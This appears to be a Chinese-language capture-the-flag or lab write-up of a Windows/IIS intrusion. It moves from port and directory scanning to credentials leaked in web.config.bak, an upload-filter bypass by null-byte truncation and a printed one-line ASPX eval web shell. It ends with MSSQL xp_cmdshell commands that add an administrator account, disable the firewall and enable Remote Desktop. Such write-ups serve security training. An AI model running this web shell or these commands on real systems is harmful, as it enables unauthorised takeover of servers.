




# 找到登录页面

> 首先得到一个目标IP，但发现并不能直接访问，于是用nmap或者御剑进行端口扫描
>
> 扫出的结果
>
> 
>
> 逐个查看后，发现27689端口下是一个登录页面
>
> 
>
> 弱口令尝试过后无结果
>
> 尝试万能密码后也无果
>
> 尝试扫描该端口的目录，使用dirsearch或者御剑扫描后台
>
> 扫出后台为web.config.bak
>
> 
>
> 可以看到一个数据库名，和密码


# 进入登录页面进行文件上传

> 用navicat连接后可找到用户名为**admin**和密码为**asdadwn_d2112**
>
> 再反回登录，发现可以登录进去
>
> 
>
> 点击文件上传与管理上传文件发现提示
>
> 
>
> 再观察出上传的文件只能是.jpg，然后前面会生成一个固定长度的数字
>
> 于是想到拼接出32位为.aspx  33位后为.jpg
>
> 
>
> 但点击后发现是下载文件，并没有解析文件
>
> 再上传后抓包，使用00截断发现页面报错
>
> 
>
> 发现路径后，构造aspx木马
>
> ```
> <%@ Page Language="Jscript"%>
> <%eval(Request.Item["pass"],"unsafe");%>
> ```
>
> 至.aspx的文件中
>
> 上传进去，根据报错信息，构造路径，用蚁剑连接
>
> 
>
> 
>
> 连接成功，进入
>
> 
>
> 发现了key
>
> 然后又发现了第二个数据库


# 连接目标主机

> 用navicat再次连接第二个数据库
>
> 
>
> 
>
> 执行以下命令
>
> ```
> USE master
> RECONFIGURE
> EXEC sp_configure 'show advanced options',1
> RECONFIGURE
> EXEC sp_configure 'xp_cmdshell',1
> exec master..xp_cmdshell 'net user admin 123 /add'					————新建用户
> exec master..xp_cmdshell 'net localgroup administrators admin /add'	————添加用户至管理员组
> exec master..xp_cmdshell 'netsh firewall set opmode disable'		————关闭防火墙
> exec master..xp_cmdshell 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f'							 ————打开一些服务
> exec master..xp_cmdshell 'netstat -anop tcp | find "3389"'			————打开3389端口（远程连接）
> ```
>
> 接下来就用远程桌面连接，连接目标电脑
>
> 
>
> **完结**

